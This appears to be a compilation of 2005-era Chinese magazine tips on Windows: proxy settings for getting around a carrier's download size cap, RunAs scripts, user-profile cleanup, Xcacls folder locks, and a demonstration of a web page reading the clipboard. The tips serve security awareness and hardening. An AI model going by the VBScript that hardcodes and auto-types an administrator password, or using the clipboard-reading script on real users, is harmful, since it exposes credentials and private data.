完成Flash插件的安装后，接着进行的就是浏览器的代理设置，这部分内容和《30元！包月无线上网》一文中的设置基本相同，在Firefox中选择菜单“工具→选项”，选择左侧的“基本信息”标签，然后在右侧点击“连接设置”按钮，选择“手动配置代理”项，并在下方的“HTTP代理”中填写10.0.0.172，“端口”填写80，点击“确定”保存设置。完成这些设置后，你的Firefox就能打开绝大多数网页了，很少会遇到网页无法显示的问题了。

## 欲速则不达，合理设置分段大小

下载文件的大小受限制，这个问题也很严重，在原文中提到一般下载的文件大小不能超过300KB，但实际上绝大多数的下载都会超过这个大小，换言之就是基本不能用来下载了。这种包月方式虽然低价，但我们不能让它低质，笔者利用Flashget轻松突破了这个限制。

首先必须保证已经按照上文中的方法安装和配置好了Firefox，然后安装一个Flashgot插件。对，是Flashgot……这不是编校的错误，这个插件的主要功能是让你能够在Firefox中使用Flashget、Net transport等下载工具。你可以选择菜单“工具→扩展”，在弹出框中点击“获取更多扩展”链接，然后在Firefox的插件列表中选择Flashgot并点击其下载链接（也可手动输入链接进入: https://addons.mozilla.org/extensions/moreinfo.php?id=220），直接安装（Flashgot的人气排名在Firefox插件中是排第一的，所以很好找）。点击其下载链接后，Firefox会弹出一个框询问是否安装此插件，确认后等待其完成安装。关闭Firefox再重新打开（这步很重要，如果没有重启，这个插件很可能无法正常工作），这时在工具菜单中就已经出现了Flashgot的相关菜单项，选择“工具→Flashgot→更多选项”，在弹出的“Flashgot选项”窗口中应该已经检测到了你使用的下载软件（在“下载管理器”列表框中显示），如果没有正确识别请手动指定并点击“确定”保存。

现在用Firefox浏览网页时就能使用Flashget等工具下载了，你可能会问，这和突破下载文件大小限制有什么关系？其实能够支持这些下载工具是突破限制的关键，不过这些下载工具需要进行一番设置才能实现突破限制，以Flashget为例: 在Flashget主界面中选择菜单“工具→选项”，在弹出的“选项”窗口中选择“常规”选项卡，将“分段下载的每段最小尺寸”设置为200KB以下，根据当地服务商的限制大小而定，可多次调试得出一个比较合适的值，但注意分段大小一定要比限制值来得小。

Flashget中也需要设置一下代理服务器，同样在“选项”窗口中，选择“代理服务器”选项卡，点击“添加”，名称随意填写，“服务器”栏填10.0.0.172，“端口”设置为80，“类型”选择HTTP<connect>（注意必须选此项，否则无法成功）。确认后回到“代理服务器”选项卡，勾选“所有的任务均使用缺省的代理服务器”，HTTP缺省、FTP缺省、RTSP/MMS、多代理都选为你刚建立的代理服务器。

注意: 按照上文的方法设置后，请在文件小于3MB的时候使用多线程下载，如果大于这个标准，请尽量使用单线程。

（xinzhu3@163.com）

## 秀出系统的挡箭牌——“运行身份”技术

在Windows 2000/XP等使用NT内核的系统中，有一项功能称为“运行身份”，也就是说在当前用户登录后，能以其他用户的身份运行程序，无需注销当前用户重新登录。大家都知道Windows 2000/XP拥有多用户特性，每个用户都可以拥有自己的配置信息，同时也拥有不同的使用权限，而管理员无疑是系统中最高权限的用户，大家默认使用的大多也是这个账户。不过实际上，根据微软官方的安全建议，在日常使用中最好不要使用管理员账户，因为权限实在太高，在此账户上进行的误操作或者运行的程序都有可能对系统造成致命的破坏。

根据这项建议，平时使用受限用户身份登录并使用计算机，需要进行系统设置或者软件安装等操作时就必须注销后再以管理员身份登录才行，但如果使用“运行身份”，就可以避免这种麻烦。那么，应该如何使用这项功能呢？

## 以攻代守：管理员不亲自出手

由于Users组的账户不能修改注册表中的系统设置部分，也无权修改操作系统文件和程序文件，同样的，使用此账户运行的程序也继承了这个账户的低权限特性，因此病毒、木马等程序在这种情况下就奈何不了我们的系统了！但仍然有许多人（尤其是家庭使用者）以“方便”为由，继续以系统管理员的权限使用Windows。为满足包含笔者在内的这部分“懒人”的需要，微软发布了一个名为DropMyRights的工具。当你使用管理员账户登录时，这个工具软件能够让你在运行浏览器和电子邮件客户端软件等风险最大的应用程序时降低权限。比如说，你可以以系统管理员的权限登录Windows，但指定你的浏览器以及电子邮件程序以“普通用户”、“受限的用户”，甚至是更低的用户权限执行。这样一来，即使网页或电子邮件中包含病毒，所造成的损害也会大大降低。

DropMyRights小档案
软件版本: 1.0
软件大小: 164KB
软件性质: 免费软件
适用平台: Windows 2000/XP/2003
下载地址: http://www.onlinedown.net/soft/26509.htm

DropMyRights的使用方法很简单，安装后找到常用的浏览器、电子邮件程序的快捷方式，右击选择“属性”打开快捷方式的属性窗口，再将“目标”栏依下方式修改:

例如，在C:\Dro\下安装有DropMyRights，就可将快捷方式的“目标”设为“C:\Dro\dropmyrights.exe "c:\program files\internet explore\iexplore.exe"”（不含外侧中文引号），按“确定”保存后就可使用了。DropMyRights在命令行末端提供三种命令行参数，“N”作为普通用户（默认情况下）运行应用程序，“C”作为受一定限制（客户级）的用户运行应用程序，“U”作为非信任用户运行应用程序。尽管DropMyRights可以让程序以低权限方式运行，但仍建议安装最新版本的杀毒软件并打开实时监控功能。

## 以退为进：受限用户自抬“身价”

可能有人会对DropMyRights这款小工具的安全性能将信将疑，另外，平时的操作中处处可能造成系统损坏，比如打开了一个带有恶意脚本模板的文件夹，或不小心执行了一个删除系统文件的批处理，这些问题都是DropMyRights无能为力的。所以可以以退为进，用受限用户身份登录，而在需要的时候使用管理员身份运行。

### 1.RunAs也能实现降低权限

用RunAs可以替代DropMyRights，方法很简单。比如可以设置一个在注册表中没有自动权限，也没有系统目录写权限的用户，然后用RunAs调用这个账户运行不明安全的未知程序，来防止木马、恶意程序修改系统文件。 右击“我的电脑”选择“管理”，在“本地用户和组”中添加一个账户（见图），这个账户默认是属于Users组的。然后，可以根据需要给“Users”组或者刚才新建的账户分配对应的权限，普通情况下使用默认的权限即可。接着右击未知程序XXX.exe文件，从菜单中选择“运行方式”命令，对于Windows 2000系统，则需要先按下Shift键，再右击EXE文件，才可以看到“打开方式”命令。在弹出的“运行身份”对话框中选择“下列用户”选项，在“用户名”下拉框中，输入刚才新建的用户名及密码，单击“确定”按钮即可安全地测试未知程序了。

### 2.以管理员身份安装程序

用户为保证安全平时会用受限用户登录，但在安装软件时会遇到需要管理员身份来安装的软件，这时就可以用RunAs来切换管理员账户解决。在安装程序setup.exe文件上单击右键，在弹出菜单中选择“运行方式”，在“运行身份”对话框里选中“下列用户”选项，在“用户名”下拉框中选择Administrator，输入正确的密码，单击“确定”按钮即可运行软件安装。

### 3.建立常用程序的特殊运行方式

如果平时以受限用户登录，可以新建一个“注册表编辑器”的高权限运行方式，这样既保证了安全又可以方便地完成设置。打开“记事本”，输入如下代码并保存为runreg.vbs。

```
set shell=wscript.createobject("Wscript.shell")
shell.run "runas.exe /user:administrator \"regedit.exe\""
wscript.sleep(1000)
shell.sendkeys "123456" & "{ENTER}"
```

其中“administrator”可以更换为其他账户的用户名，“123456”是对应的账户密码，“regedit.exe”由于在系统目录下所以无需输入完整路径，如果换成其他程序则应加上完整路径。这个脚本自动完成了RunAs调用和密码的输入，相当于一个增强型的“快捷方式”。

### 4.超强的右键运行

刚才的脚本虽然方便，但是需要为每个程序都建立一个这种脚本文件就太费事了。我们把脚本做一些修改，让它更“聪明”，把下面的代码保存为runasadmin.vbs（此脚本连同刚才的runreg.vbs可从http://www.newhua.com/cfan/200520/runuser.rar下载），将此文件复制到C:\Documents and Settings\[当前用户名]\SendTo目录下（注意打开显示隐藏文件的选项）。

```
set args=wscript.arguments
cmd = args(0)
set shell=wscript.createobject("Wscript.shell")
shell.run "runas.exe /user:administrator \"& cmd &\""
wscript.sleep(1000)
shell.sendkeys "123456" & "{ENTER}"
```

这样以后遇到想以管理员身份运行的程序，直接右击并选择“发送到→runasadmin.vbs”即可。你还可以对脚本中的账户信息做一些微调，多制作几个针对不同权限的脚本放到SendTo目录下，以满足不同的运行需要。

## 有错必究：“运行身份”故障分析

- 1.无法使用“运行身份”安全地运行恶意程序
分析：“运行身份”技术带来的系统安全性建立在Windows本身账户的权限机制上，如果硬盘分区格式不是NTFS而是FAT32，那账户本身的权限就不起作用了，使用受限用户也同样能够修改硬盘上的系统文件和程序文件，所以自然不能保证安全了。
- 2.无法正常使用RunAs功能
分析：RunAs依赖于系统本身提供的账户快速切换机制，如果相关的系统服务不可用，就会造成RunAs功能失效。要使用RunAs功能，必须保证系统中的“Secondary Logon”和“Fast User Switching Compatibility”两项服务已经启动。

（Lucky 无心睡眠）

## 系统目录中的“白幕大三角”

这天小菜的电脑突然发出警告：C盘空间不足。打开“资源管理器”，查看C盘属性，5GB的C盘只剩下120MB的空间了，分别查看C盘各子目录属性，最后发现Documents and Settings目录体积最大，竟然达到了2.3GB，记得以前听别人说过这个目录是“我的文档”的原始路径，但查看“我的文档”，选中里面所有文件，然后右击选择“属性”，在弹出的窗口中显示总共也不过40MB而已，这丢失的空间又被谁“偷”走了呢？从小菜额头上渗出的点点汗珠就不难猜想到他的紧张程度，此时他可能已经把这个目录和百幕大三角等奇异的自然现象联系了起来。打开Documents and Settings目录，发现其下面有许多子目录，看起来挺复杂的，和“我的文档”中的内容并不一样，究竟哪些文件可以删除，找回丢失的硬盘空间呢？小菜刚想打电话给大嘴，却发现大嘴已经站在门口了……，“我刚才突然觉得电话铃响，所以就过来替你。”大嘴说话时的表情很奇怪。显然，小菜隔三差五的“召唤”已经让大嘴产生了心灵感应。只见大嘴打开C:\Documents and Settings\XinRui\Local Settings\Temp目录，单击右键选择“属性”后告诉小菜：“看这个目录体积有1.6GB，它是系统临时文件的暂存目录，在这里保存的都是应用程序安装和运行过程中产生的临时文件，正常来说，这里的临时文件会被它的“生产者”自动删除的，但有时可能会因为软件安装程序设计不佳或者系统死机等问题，导致一些临时文件不能被自动删除，就保留在这里了，时间一长，这里就成为系统垃圾箱了。你看这里有个'Photoshop Temp1504366'文件体积就高达960MB，看来以前在用PhotoShop时电脑突然死机或断电了，导致它产生的临时文件无法自动删除。”说完，大嘴选中Temp目录中的所有文件，按下Shift键后单击工具栏中的“删除”按钮，彻底删除了这里的所有文件，状态栏显示的可用磁盘空间立刻变成了1.72GB。除Temp这个临时文件目录外，在Documents and Settings中还有一些子目录也是需要清理的，而且Documents and Settings目录并不仅仅是“我的文档”那么简单哦，下面就详细介绍一下。

因人而异：多用户配置数据的聚集地
简单把Documents and Settings目录当作“我的文档”是片面的，因为在这个目录下不仅包含“我的文档”，还有开始菜单、“收藏夹”、“桌面”等重要个人资料，以及IE缓存、历史记录和重要的应用程序配置数据等。更重要的是，Documents and Settings目录是Windows 2000/XP/2003等系统的多用户配置数据的聚集地，其下有若干以用户名称命名的子目录，分别保存了该用户专用的文档和配置数据，根据电脑上登录过的用户不同，可能会有多个不同名称的子目录，例如在小菜的电脑上就有“XinRui”名称的子目录（见图1），它保存的就是小菜专用的文档和配置数据。不过以下五个子目录是每个电脑上都有的：

- Administrator子目录以Administrator用户身份登录过系统后，就会产生此文件夹，它保存的是系统管理员专用的文档和配置数据。
- All Users子目录保存了所有用户共用的文档和配置数据，这里的开始菜单、“桌面”以及“收藏夹”内容能被所有的用户看到和使用。
- Default User子目录保存的是缺省用户文档和配置数据，当在系统中新建一个用户时，它就会以此目录中的内容为基础，并添加All Users文件夹中的数据来构建该用户专用的文档和配置子目录。
- LocalService和NetworkService子目录：LocalService和NetworkService都只是一个象征意义上的用户名称，分别指本地服务和网络服务，它们是Windows XP中的“服务管理”程序所创建的，提供给那些作为服务的程序用。例如安装Foxmail Server搭建邮件服务器时，这两个文件夹是系统必需的，一般不要随意修改。

大嘴提示：要想看到Documents and Settings目录中的所有目录和文件，需要在“资源管理器”中选择菜单“工具→文件夹选项”，在“查看”选项卡中选中“显示所有文件和文件夹”选项。此时在很多目录下会有一个名为“desktop.ini”的文件，注意不要删除该文件。

我的目录我做主
Documents and Settings目录下的用户子目录的结构都基本相同，这里就以小菜电脑上的XinRui用户为例介绍一下其中重要目录的功能和应用。

1.  Documents and Settings\XinRui\My Documents
这个目录就是“我的文档”，在“资源管理器”中还可以看到一个“共享文档”，它对应的路径则是Documents and Settings\All Users\Documents，共享文档中的文件可以被所有的用户看到和使用。

2.  Documents and Settings\XinRui\Desktop
这个路径下保存的是桌面上显示的内容。现在你明白为什么不同的用户会有不同的桌面了吧，因为它们位于不同的目录。

3.  Documents and Settings\XinRui\Favorites
用户“收藏夹”目录，在这里可以更方便地清理和归类“收藏夹”。该目录下有个“链接”文件夹，保存的是IE工具栏“链接”中的网址，通常我们很少用到这个功能，建议删除该文件夹，但是下次启动IE后它又会自动出现。若要永久地删除“链接”文件夹，我们还需要打开“注册表编辑器”，展开[HKEY_CURRENT_USER\Software\Microsoft\Internet Explorer\Toolbar]分支，双击右边窗格中的“LinksFolderName”，将其键值数据修改为空即可。

## 4. Documents and Settings\XinRui\Cookies

这里保存的网站Cookie信息。Cookie是当你浏览某网站时，网站存储在你电脑上的一个小文本文件，它记录了登录网站的用户名、密码等信息，下次访问时网站通过读取Cookie以完成相应的动作，例如自动登录等。详细的Cookie知识请参考本刊2005年第21期的《稀饭魔语大辞典》。

### 应用实例：玩玩Cookie——危险的也是

虽然大家通常都认为Cookie是危险的，建议将其删除，不过个人倒认为Cookie并没有什么不好的，尤其是仅自己使用的家庭电脑，因为它有一个重要功能就是保存了自动登录信息，这样就能在打开商城、论坛页面时实现自动登录，避免了每次手工登录的麻烦，而且保存在本地Cookie中的密码大多经过MD5加密的，非常安全。如果想对电脑中的Cookie进行有效管理，大嘴推荐一款工具——Cookie Editor（以下简称CE）。

### Cookie Editor小档案

软件版本：1.9.1.469 软件大小：992KB 软件性质：共享软件 适用平台：Windows 9x/2000/XP 下载地址：http://hnpy.onlinedown.net/down/cookieditersetup.exe

运行CE后，它会自动扫描电脑中的所有Cookie信息，并以列表的形式详细显示出来，你可以单击“Cookie Domain”列，让它按网站排序，这样就可以根据网址，选中那些不需要自动登录的网站，然后单击工具栏中的“Delete”按钮将其删除（见图2），而且，对于一些你感觉不安全的黑客、安全类网站，则可以选中后单击鼠标右键，选择“Block cookie from……”来阻止这个网站以后在本机收集Cookie信息。



CE还有一个最重要的特色功能就是可以编辑Cookie中的过期信息。我们知道，许多网站自动登录有时间限制，在登录时可以选择保存一天、一个月或一年，过期后就需要重新输入密码进行登录，对于家庭电脑来说，其实更希望它能永久有效，通过CE修改就能轻松做到。首先单击“Search”按钮，输入要修改日期的网址，单击“Go”按钮后可以在下面看到搜索结果，右键单击你要修改的网站Cookie，选择“Edit cookie……”，在打开的编辑对话框中的“Expiration Date and Time”栏下将年份修改为“2100”（见图3），即可让自动登录在2100年之前都不会失效。



## 5. Documents and Settings\XinRui\[开始]菜单

这个相信大家就都知道了，开始菜单中的程序快捷方式就存放在这里了。这里有个技巧要分享给大家，将其下快捷方式的属性设置为“隐藏”，就可以让这个快捷方式从开始菜单中“消失”。

## 6. Documents and Settings\XinRui\Recent

这个目录保存的是最近使用的文档快捷方式，直接删除这里的内容就可以快速清除文档历史记录。

## 7. Documents and Settings\XinRui\SendTo

资源管理器右键菜单中的“发送到”子菜单中显示的命令。通常大家都是直接删除这里的快捷方式来精简发送到菜单，其实和隐藏开始菜单快捷方式一样，我们只要把不使用的快捷方式修改为隐藏属性，即可使其不显示，既达到精简的目的，以后还能很方便的恢复。

## 8. Documents and Settings\XinRui\Local Settings\History

IE历史记录目录，在“控制面板→Internet选项”中单击“清除历史记录”按钮即可删除。

## 9. Documents and Settings\XinRui\Local Settings\Temporary Internet Files

IE缓存数据目录，这个目录也经常会“吃”掉大量硬盘空间，在Internet选项中单击“删除文件”按钮，并选择“删除所有脱机文件”选项即可清除缓存数据。

大嘴提示：在前面介绍的Cookies目录以及这里的History、Temporary Internet Files目录中都存在有一个名为“index.dat”的隐藏文件，该文件记录了我们所访问过的网址、访问时间等涉及个人隐私的信息，使用Index.dat File Viewer等工具即可查看这些隐私信息，而且我们使用Internet选项中的任何功能都无法清除该文件中记录的信息，同时该文件无法直接删除，如果你想彻底清除所有的上网记录的话，则可以使用一款叫做“Tracks Eraser Pro”的工具（下载地址为http://gzcncon.onlinedown.net:82/files/te5.exe），它具备清除index.dat中的上网记录功能。

## 10. Documents and Settings\XinRui\Local Settings\Temp

前面已经介绍了，这是临时文件的存放路径，我们应经常对该目录进行清理。不过当全选文件后进行删除时，可能会提示文件正在使用，无法进行删除，其实被使用的只是目录下的部分文件，通过下面的批处理就可以直接删除所有可以被删除的文件，而没有任何提示。

```
@echo off
rd %temp% /s/q
md %temp%
```

应用实例：淘宝——我只要干净的程序 现在有许多汉化补丁的安装程序都捆绑有3721上网助手、DUDU加速器等广告程序，例如VirtualDubMod 1.5.10.1 Build 2389 汉化版软件在安装时首先会提示你是否安装3721上网助手，虽然有这个提示避免误安装，但是总感觉有些烦，我们看看如何通过Temp目录来提取干净的安装程序。 首先打开Temp目录，并使用上面的批处理清理一下Temp目录中的无用文件，以便于观察。然后运行VirtualDubMod汉化版安装程序，提示安装上网助手时选择“否”，这时会打开VirtualDubMod的安装界面，现在切换到Temp目录，可以看到新增了四个文件，其中名为“instA.exe”的文件就是没有捆绑3721上网助手的干净版本了，把这个文件复制到其他目录即可，当然，有时要提取的干净安装文件可能会存在于子目录中，请注意观察新增的文件和文件夹。另外，我们在结束VirtualDubMod安装后，发现Temp目录中新增的这些临时文件并没有自动删除，现在明白为什么Temp目录的体积为什么会越来越大了吧？此外，“千千静听”也有干净安装的方法，请参考本刊2005年第13期的《去除共享软件附带的“寄生虫”》。

## 11. Documents and Settings\XinRui\Application Data\Microsoft\Internet Explorer\Quick Launch

任务栏快速启动文件夹，在这里可以管理快速启动栏按钮，而且快捷启动栏是支持文件夹结构管理的，所以将桌面上的快捷方式转移到这里使用起来会更方便，而且更加节省桌面资源。快速启动栏还能玩得更好，详细请见本刊2005年第4期的《狂派补药快速启动栏变成Super启动栏》以及2005年第8期的《用HTML“武装”你的任务栏》。

## 12. Documents and Settings\XinRui\Application Data

通用应用程序数据文件夹，这里存放着已经安装的一些应用程序的专用数据，这里的内容是软件安装时自动生成的，通常不能删除。

## Documents and Settings高级应用

### 1. 搬家咯！给系统盘腾点地方

由于Documents and Settings目录保存着许多重要的个人数据，并且经常会产生大量临时文件（容易造成硬盘碎片），所以很多人想将它转移到别的分区下，但直接移动目录显然是不行的…… (1)安装系统前迁移 在运行Windows安装程序Winnt.exe或Winnt32.exe时加上/unattend参数，并在unattend.txt文件中插入以下语句: [GuiUnattended] ProfilesDir=z:\foldername 其中z:\foldername是Documents and Settings目录的自定义位置。 (2)已经安装的系统 对于已经安装的系统可以使用mountvol命令实现迁移，具体方法可以参考本刊2004年第22期中的《Documents and Settings迁徙之路》。 (3)单独迁移常用目录 除了上文中的方法外，我们还可以只将Documents and Settings下的几个保存有个人重要数据，以及经常会产生临时文件的子目录迁移到其他分区即可。而且有些程序会固定使用C盘的Documents and Settings目录路径来储存配置文件，当我们整个迁移该目录时，有可能导致程序无法运行。单独迁移常用目录，推荐使用一键还原精灵伴侣软件（下载地址:http://jhy.ahjsedu.net/jhybl.exe）。它可以将Desktop(桌面)、Favorites(收藏夹)、My Documents(我的文档)、Temporary Internet Files(IE缓存)、Temp(临时文件)这五个目录迁移到“D:\Personal\用户名”目录下。软件的使用非常简单，运行下载的自解压缩包并释放到某个目录，运行解压后的“安装程序.exe”即可。另外也可以手工修改注册表来迁移Documents and Settings目录下的特定目录，打开“注册表编辑器”，找到[HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Explorer\Shell Folders]，在右侧窗格修改相应的路径键值数据（见图4），这种方法的好处就是可以把不同的目录任意设定到不同的分区。



### 2. 系统缓慢，换件马夹

Windows系统在长期使用后，难免会越来越慢，甚至可能出现一些奇怪的故障。先别忙着重装，在“控制面板→用户账户”中创建一个新账户，然后使用新账户登录，你会发现速度一下子快多了。但是桌面上的快捷方式，开始菜单中的程序似乎少了许多，没关系，将Documents and Settings下原来账户目录下的桌面、收藏夹、开始菜单覆盖到新的账户目录下（建议使用管理员账户完成此操作），东西又都回来了！ (软件DIY)

## 安全和便捷两不误，无形的权限之锁

在学校、办公室这类场所中，个人电脑很快就会成为“公众”电脑，而且如果朋友要借用你的电脑玩游戏或上上网，你又很难拒绝。如何能防止别人长期霸占你的电脑玩游戏，又如何防止别人在使用你的电脑上网时不幸感染网页木马？你需要使用 Windows 的权限机制来打造一把坚固的无形之锁！

和往常一样，要保证下文中的权限设置方法或脚本可用，你的系统必须是 Windows 2000/XP/2003 等使用 NT 内核的系统；并且进行权限操作的分区必须是 NTFS 格式，另外，在 Windows XP 中需要去除“文件夹选项”中“使用简单文件共享(推荐)”的勾选。

微软在 Windows 中自带了一个基于命令行的权限设置工具 cacls，可是用此工具的可用参数较少，不适合编写自动化设置的批处理；因此推荐大家使用微软特别提供的增强版 cacls——Xcacls。

**Xcacls 小档案**

- 软件版本：1.00.0.1
- 软件大小：581KB
- 软件性质：免费软件
- 适用平台：Windows 2000/XP/2003
- 下载地址：http://download.microsoft.com/download/win2000platform/Update/1.00.0.1/NT5/EN-US/xcacls_setup.exe

### 教你使用 Xcacls 的命令参数

Xcacls 的基本参数与系统自带的 cacls 相同，其命令格式如下：

```
Xcacls filename [/T] [/E] [/X] [/C] [/G user:perm;spec] [/R user [...]] [/P user:perm;spec [...]] [/D user [...]] [/Y]
```

1. 参数 Filename: 需要设置(修改)权限的文件(必需参数)，表示权限设置应用到的文件或文件夹，可使用通配符。
2. 参数 /T: 使用此参数后，权限将应用于指定路径及其所有子目录中。
3. 参数 /E: 编辑已经设置的权限，而不采用替换。如果不加此参数，比如 “XCACLS g:\a /G Administrator:F”，则只有 “Administrator” 才拥有对目录 g:\a 的完全访问权限，其他所有用户的权限将被限制；反之，使用 /E 参数后则其他用户的权限仍然保留。
4. 参数 /C: 在出现拒绝访问错误时继续。使用此参数后，在批处理文件对目录文件进行批量权限操作时，不会因为一个文件的访问错误而中断。
5. 参数 /G user:perm;spec: 赋予用户对匹配文件或文件夹的访问权限。其中 perm 代表要使用的权限掩码，包括 R (读取)、C (更改/写入)、F (完全控制)，而 spec 则表示一些特殊权限的掩码，如 P (更改权限)、O (取得所有权)、X (运行)、E (读取)、W (写入)、D (删除)等。
6. 参数 /R: 撤销指定用户的所有访问权限。
7. 参数 /P user:perm;spec: 替换用户的访问权限。perm 和 spec 的规则与参数 /G 相同，注意是替换而非赋予，指定此参数时此用户原来具有的权限将被删除而使用新指定的权限。
8. 参数 /D: 拒绝用户访问文件或目录。
9. 参数 /Y: 无需确认直接更改，此参数有助于我们使用批处理编写自动化脚本。

**小提示**

程序默认安装在 C:\Program Files\Resource Kit，为方便使用，可以将其其中的 xcacls.exe 提取并分别复制到 c:\windows\system32 和 c:\windows\system32\dllcache，这样就可以把它作为系统命令使用了。

## Xcacls 装备批处理，打造无形之锁

### 1. 这段时间你别玩游戏

我们经常希望权限设置是定时生效，在自己需要访问这些文件的时候不受任何限制。比如办公室电脑在午饭时间经常被同事用来玩游戏，需要限制游戏程序在 11:30-12:30 这个时段无法运行指定游戏，而 12:30 后则自动解除限制。

#### (1) 建立锁定和解锁脚本

打开“记事本”输入下面内容并保存为批处理文件 lock.bat，放置在 G:\(也可其他位置，但应与下文中的计划任务配置)：

```
@echo off
xcacls "l:\Program Files\Ringz" /d administrator /y
exit
```

命令的作用是通过 Xcacls 禁止 administrator 用户对游戏目录 l:\Program Files\Ringz 的访问权限，更改后无须确认并自动退出命令提示符窗口。然后用同样的方法建立 unlock.bat，此批处理文件指定游戏目录只对 administrator 提供访问权限，所以切勿用于系统文件夹：

```
@echo off
xcacls "l:\Program Files\Ringz" /t /g administrator:f /y
exit
```

**注意：** 以上两个 BAT 文件假设当前登录的用户是 administrator，请根据实际情况进行修改。

#### (2) 计划任务实现自动化

打开“控制面板→任务计划”，按提示新建一个每天 11:30 执行的计划任务(任务执行需要输入当前账户名和登陆密码)，执行的程序是 “g:\lock.bat”，相同方法另建一个每天 12:30 执行的任务，执行的程序是 “g:\unlock.bat”。

经过这样一番设置后，你的电脑就不会再成为公用游戏机了！

### 2. 上网时，木马别往系统目录里跑

除定时权限设置外，还可以使用权限关联，比如在上网时经常因为网页中嵌入了木马而中招，黑客一般都是使用网页中的恶意脚本将木马文件植入系统目录，既然如此，我们何不在上网时禁止系统目录的写入呢？编写一个批处理脚本，执行拨号命令，同时用 Xcacls 限制用户对 System32 目录的写入操作，这样在上网时只需执行这个批处理来完成拨号即可实现系统目录的保护。下网时必须使用另一个脚本恢复原来的权限，否则可能导致软件安装等操作失败。

#### (1) 去除可能导致不安全的用户权限

以系统管理员身份登录系统后，在“资源管理器”中找到 Windows 安装目录下的 system32 目录，右击选择“属性”，打开“安全”选项卡，删除所有用户的权限，然后单击“添加”，将当前用户（以 administrator 为例）和 system 用户添加到“组和用户”列表，权限设为“读取”、“读取和运行”、“列出文件夹目录”。更详细的系统目录权限设置请参考本刊 2005 年第 16 期的《用好 Windows 权限之剑——严防非法入侵》。

**小提示**

如果文件夹继承和特殊权限无法删除，单击属性窗口的“高级”按钮，在弹出的窗口去除“从父项继承那些可以应用到子对象的权限项目，包括那些在此明确定义的项目”复选框，接着单击删除，去除所有继承的权限后再添加用户。

#### (2) 拨号与权限设置关联脚本

打开“记事本”，输入以下内容并保存为 adsl.bat(下列代码中的 “ADSL” 是“网络连接”中建立的上网拨号的名称)，在桌面上建立其快捷方式：

```
@echo off
rasphone -d ADSL
xcacls c:\windows\system32 /e /p administrator:r;ex /y
xcacls c:\windows\system32 /e /p system:r;ex /y
exit
```

同样方法另建 xiawang.bat，代码如下：

```
@echo off
xcacls c:\windows\system32 /e /c /p administrator:f /y
xcacls c:\windows\system32 /e /c /p system:f /y
exit
```

在断网后，执行此脚本即可恢复原来的正常权限设置，注意如果不恢复则很可能导致平时各种操作不正常。

#### (3) 为什么禁止 system

可能有人会觉得奇怪，禁止当前用户对系统目录的访问就行了，何必还要将 system 用户也加入呢？其实原因很简单，网页木马的运行方式是用当前用户的权限来对系统目录进行写入，而在上网时，还有可能受到各类利用系统漏洞溢出的攻击（比如冲击波、震荡波，或者相同原理的黑客攻击工具），这类溢出攻击所得到的权限大多是 system，所以在上网时禁止 system 用户对系统目录的写入可以有效提高安全性。

## 单挑还是群殴？与 TC 过招

虽然 Windows 在不断地升级，但作为重要系统组件之一的“资源管理器”却始终没有大的改进，所以包括笔者在内的很多人选择了 Total Commander（以下简称为 TC）作为“资源管理器”的替代品。不过 TC 是一款收费的共享软件，使用时难免束手束脚，为此我们请来了三大高手与 TC 过招。



### 小个子首发出场：纯绿软件 Xplorer

**Xplorer 小档案**

- 软件版本：0.4.0.99
- 软件大小：567KB
- 软件性质：免费软件
- 适用平台：Windows 98/ME/2000/XP
- 下载地址：http://www.onlinedown.net/soft/6275.htm

一款纯绿色的文件管理软件，界面清爽漂亮（见图1），可在闪盘、软盘上运行，具备了 TC 的多标签特性，在节省资源的同时也给我们的文件操作带来了很大的方便，除此之外，其文件分割功能和自带的文本编辑工具使用起来都很方便，在一些细节处（如文件反选功能）也做得很到位。

评审认定：绿色、小巧、免费是此软件的三个卖点，常用操作功能也完成得很好，但功能数量上与 TC 存在很大差距，如果对扩展功能（如查看压缩文件、FTP）等功能也有要求，再看看下面两位的发挥吧！

### 叫板也要讲实力：“好记性”的 ExplorerXP

**ExplorerXP 小档案**

- 软件版本：1.07a
- 软件大小：410KB
- 软件性质：免费软件
- 适用平台：Windows 2000/XP
- 下载地址：http://www.explorerxp.com/explorerxsetup.exe
- 软件备注：推荐使用汉化新世纪提供的汉化绿色版（下载地址：http://www.hanzify.org/index.php?Go=Show::List&ID=9134）。

TC 的文件分割功能非常有用，经常需要处理大文件上传的朋友可能深有体会，ExplorerXP 的文件分割功能也很完善，而且速度很快。不过这和其他众多功能一样，不过是和 TC 的已有功能作比较罢了。有没有比 TC 更强的功能呢？我们发现 ExplorerXP 的“记性”实在不错，不仅可以建立多页面标签，而且能创建文件夹群组，为操作提供了很多便利。比如为了方便工作，我们常常需要打开多个保存工作文档文件夹，运行 ExplorerXP 后，依次单击“文件→新建标签”打开几个工作文件夹，然后单击“群组→保存打开的文件为群组”并命名为“工作群组”。此外，还可以新建其他群组如“娱乐群组”、“下载群组”等，右击群组选择“添加文件夹”，可以把自己常用的文件夹添加到群组。这样在不同的操作时只需启动相应的群组即可（见图2）。

## 小心剪贴板出卖你的隐私

本刊在2004年第19期《剪贴板真的“剪”了吗？》一文中给大家详细说明了 Windows 剪贴板的运行原理，在我们复制二进制文本内容的时候，即使删除了文本源，系统在内存中还是记录了其中的信息。如果这些信息包含有 QQ 号和密码、ADSL 账户和密码、甚至银行卡号和密码等信息，隐私的泄露就变得非常可怕了！当然，这些信息在重启后或被新剪贴的内容覆盖后就可以被清除，不过在此之前如果你浏览过网页，那么这些信息就可能被窃取！这到底是怎么一回事呢？首先，让我们复制一些文字到剪贴板中，然后在 IE 中打开 http://www.sourcecodesworld.com/special/clipboard.asp 页面。看，网页中已经将剪贴板中的信息显示出来了。既然网站可以显示自己剪贴板中的信息，也就说如果这些信息被这个网站收录，并且被发送到指定的电子邮箱中，那后果可想而知了！虽然问题比较严重，但实现的方法却很简单，只要在网页的源文件中加入下面的 JavaScript 代码即可实现：

```javascript
<Script Language="JavaScript">
var content = clipboardData.getData("Text");
alert(content);
</Script>
```

右击查看上文那个网站的源文件就可以找到这一段脚本。既然这个漏洞是通过 IE 浏览网页时的脚本造成的，解决方法也很明显，可以在 IE 的安全属性中禁止这一类操作，从而阻止剪贴板内的信息泄漏。在 IE 中选择菜单“工具→Internet 选项”，在“安全”选项卡中单击“自定义级别”，然后将“允许通过脚本进行粘贴操作”项设置为“禁用”，确认所有选项。重启 IE 后登录刚才的网页，是不是内容不再被显示了？（Limited）



## 与TC难分伯仲:免费至尊xplorer2

xplorer2 Lite小档案
软件版本:1.3.0.2 简装版
软件大小:860KB
软件性质:免费软件
适用平台:Windows 98/ME/2000/XP
